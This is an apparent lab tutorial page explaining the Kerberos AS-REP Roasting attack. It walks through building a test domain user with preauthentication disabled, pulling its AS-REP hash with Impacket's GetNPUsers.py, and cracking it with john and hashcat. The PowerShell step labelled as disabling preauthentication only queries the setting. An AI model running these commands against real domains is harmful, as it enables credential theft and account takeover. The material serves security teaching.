 # 9.2 - AS-REP Roasting

### AS-REP Roasting

AS-REP Roasting exploits accounts for which **Kerberos preauthentication is disabled**. In a typical Kerberos authentication process, the client must send a timestamp encrypted with its password-derived key. This serves as proof that the authentication request is not being replayed.

However, if preauthentication is **disabled**, the client does not need to send this encrypted timestamp. As a result, an attacker can request a **Ticket Granting Ticket (TGT)** for the target user and receive an AS-REP message encrypted with the user’s password hash.

#### AS-REP Process

```
1) AS-REQ (Client -> KDC/AS)
   - Timestamp 🔑 Encrypted with Client key (only if preauthentication is enabled)

2) AS-REP (KDC/AS -> Client)
   - TGT 🔑 Encrypted with KDC key
   - TGS Session Key 🔑 Encrypted with Client key
```

In this case we can jump the first step because the preauth is disabled. Once an attacker captures the **AS-REP**, they can attempt to crack the user's password offline.

### Example: Exploiting AS-REP Roasting

**Step 1: Create a User**

```powershell
New-ADUser -Name "asrep" -SamAccountName "asrep" -UserPrincipalName "asrep@dev-angelist.lab" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Disable Preauthentication**

```
Win + R -> dsa.msc
User -> Properties -> Account -> Account Options -> Do not require Kerberos preauthentication
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Or via PowerShell:

```powershell
Get-ADUser -Identity "asrep" -Properties DoesNotRequirePreAuth | Select-Object Name, DoesNotRequirePreAuth
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Step 3: Perform AS-REP Roasting using Impacket**

<pre class="language-bash"><code class="lang-bash"><strong>#On attacker machine create a dedicated python environment (optional)
</strong>python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Perform AS-REP Roasting attack using the Impacket's module: GetNPUsers.py
GetNPUsers.py dev-angelist.lab/asrep -dc-ip corp-dc -no-pass | grep '\$krb5asrep\$' > as-rep.txt
</code></pre>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

**Step 4: Crack the Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./as-rep.txt
hashcat -m 18200 ./as-rep.txt /home/kali/Documents/password.txt
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)
